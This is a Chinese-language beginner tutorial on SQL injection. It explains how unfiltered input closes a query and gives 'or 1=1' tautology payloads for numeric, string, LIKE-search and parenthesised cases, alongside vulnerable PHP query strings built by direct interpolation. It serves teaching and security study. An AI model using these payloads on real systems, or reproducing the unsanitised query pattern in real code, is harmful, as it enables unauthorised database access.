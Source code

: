 # SQL注入基础

## 一、原理

程序设计者在编码的过程中，过滤不够严格，导致可以通过构造恶意sql语句形成闭合，达到非法的目的。同时，如果给予存在sql漏洞的数据库过大权限，则可以进一步破坏

## 二、注入形式

### 1、数字型

首先对输入框是否存在漏洞，需要猜测其sql查询语句

基本sql查询语句为

```
select 字段1，字段2 from 表名 where id=1
```

构造形成闭合

```
select 字段1，字段2 from 表名 where id=1 or 1=1
payload:1 or 1=1
```

上面的payload 存在两个判断条件，因为是or,一个成立就行，数字型不用加单双引号

get型的直接修改url，post的需要改包。

### 2、字符型

字符型的第一步也是需要进行猜解

```
select 字段1，字段2 from 表名 where usernmae='lilei'
```

源码

```php
$query="select id,email from member where username='$name'";
```

字符型也就是字符串参数，一般会采用单引号或者双引号括起来

```
select 字段1，字段2 from 表名 where usernmae= 'lilei' or 1=1#'
payload:lilei' or 1=1#
```

上面的payload,usernmae=‘数据’，后面的#是注释掉'

### 3、搜索型

搜索型的漏洞，在于调用了一些搜索函数，进行模糊搜索

对应sql语句

```
selsect username,email from 表名 where user username like '%xxx%'
```

构成闭合

```
selsect username,email from 表名 where user username like '%xxx%' or 1=1#%'
payload:xxx%' or 1=1#
```

### 4、xx型

注入方式并不止上面的集中，其原理在于构造闭合

如以下源码

```php
$query="select id,email from member where username=('$name')";
```

构成闭合

```
$query="select id,email from member where username=('$xxx') or 1=1#)";
payload:xxx') or 1=1#
```

这玩意需要猜测和经验，也可以输入特殊字符如''进行报错提示，当然可能存在漏洞但报错机制被取消，这种就属于后文介绍的盲注了。
